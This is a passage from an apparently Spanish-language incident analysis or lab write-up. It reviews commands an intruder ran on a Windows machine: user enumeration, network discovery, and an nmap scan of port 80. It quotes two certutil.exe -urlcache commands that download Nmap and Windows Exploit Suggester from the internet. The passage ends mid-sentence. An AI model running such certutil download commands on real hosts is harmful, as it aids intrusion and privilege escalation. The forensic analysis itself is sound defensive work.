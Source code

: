 Del primer análisis de los comandos ejecutados entre las 10:11 a.m. y las 10:27 a.m., resulta inmediatamente evidente que el comando **net user** se ejecuta para identificar **todas las cuentas de usuario** en la computadora. Otros comandos se ejecutan para detectar la **configuración de red del sistema** y detectar **procesos en ejecución** .

Dos comandos certutil.exe muy interesantes se ejecutan entre las 11:06 y las 11:07 am. El primero:

```jsx
certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip
```

Éste se utiliza para descargar Nmap al dispositivo.

```jsx
*certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py*
```

El segundo comando explota la misma técnica que el comando anterior y se utiliza para descargar **Windows Exploit Suggestor** de Internet, que utilizan **los piratas informáticos** para obtener **acceso privilegiado** a **los sistemas host** .

Ahora comprobemos si efectivamente se ha establecido una conexión, como podemos ver si ha habido conexión:

![Untitled](imgpablo/142.png)

![Untitled](imgpablo/143.png)

![Untitled](imgpablo/144.png)

A continuación podemos leer de los comandos ejecutados que se realiza un **escaneo con nmap para verificar si el puerto 80 (HTTP)** está abierto.

Los siguientes pasos indican que:
